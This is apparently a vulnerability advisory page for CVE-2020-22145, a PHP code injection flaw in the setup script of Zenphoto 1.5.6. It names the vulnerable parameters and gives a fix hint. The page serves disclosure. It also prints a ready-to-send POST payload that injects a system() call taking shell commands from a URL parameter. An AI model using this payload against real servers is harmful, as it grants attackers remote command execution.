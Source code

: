```yaml
---
cve: "CVE-2020-22145"
slug: "CVE-2020-22145: Code injection in Zenphoto"
title: "Code injection in Zenphoto v1.5.6 and prior"
images: [/images/cve-mitre.png]
date: 2020-02-11
tags:
- cve
- code injection
- rce
---
```

A PHP code injection vulnerability in `/zp-core/setup/index.php` of Zenphoto 1.5.6 allows attackers to execute arbitrary code.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22145

<hr />

**Description:**  
The installation process is prone to PHP code injection which leads to a remote code execution.

**Details:**  
File: `/zp-core/setup/index.php`  
Parameters: `db_software`, `db_user`, `db_pass`, `db_host`, `db_database`  
URL: `/zp-core/setup/`

**Payload:**  
```
POST /zp-core/setup/
db=yes&xsrfToken=490edd5bf985248c832425d350602f5bb1c8043d&db_software=MySQLi%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_user=test%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_pass=test&db_host=localhost%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_database=zenphoto%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_prefix=zp_
```

**Recommendation:**  
A simple addslashes would do the trick to protect against single and double quotes.

**PoC:**  
![cve-2020-22145](/images/cve-2020-22145.png)
